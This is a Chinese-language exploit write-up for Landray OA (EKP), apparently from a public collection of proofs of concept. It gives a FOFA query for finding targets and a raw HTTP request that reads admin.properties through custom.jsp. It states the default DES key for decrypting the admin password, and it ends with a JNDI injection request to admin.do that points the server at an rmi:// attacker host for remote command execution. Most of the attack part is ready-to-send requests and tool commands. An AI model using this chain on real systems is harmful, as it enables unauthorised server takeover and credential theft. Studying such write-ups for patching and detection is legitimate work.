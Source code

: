 # 蓝凌OA SSRF+JNDI远程命令执行

## 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息，读取配置文件得到密钥后访问 admin.do 即可利用 JNDI远程命令执行获取权限

## 漏洞影响

> [!NOTE]
>
> 蓝凌OA

## FOFA

> [!NOTE]
>
> app="Landray-OA系统"

## 漏洞复现

利用 **蓝凌OA custom.jsp 任意文件读取漏洞** 读取配置文件

```
/WEB-INF/KmssConfig/admin.properties
```

发送请求包

```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 60
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

![](image/lanling-4.png)

获取password后，使用 DES方法 解密，默认密钥为 **kmssAdminKey**

![](image/lanling-5.png)



访问后台地址使用解密的密码登录

```
http://xxx.xxx.xxx.xxx/admin.do
```

![](image/lanling-6.png)

使用工具执行命令

https://github.com/welk1n/JNDI-Injection-Exploit

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

运行工具监听端口 ping dnslog测试 命令执行 (蓝凌OA 默认使用的是 JDK 1.7)

```
POST /admin.do HTTP/1.1
Host: 
Cookie: JSESSIONID=90EA764774514A566C480E9726BB3D3F; Hm_lvt_9838edd365000f753ebfdc508bf832d3=1620456866; Hm_lpvt_9838edd365000f753ebfdc508bf832d3=1620459967
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Origin: https://106.12.155.120
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/cbdsdg
```



![](image/lanling-7.png)

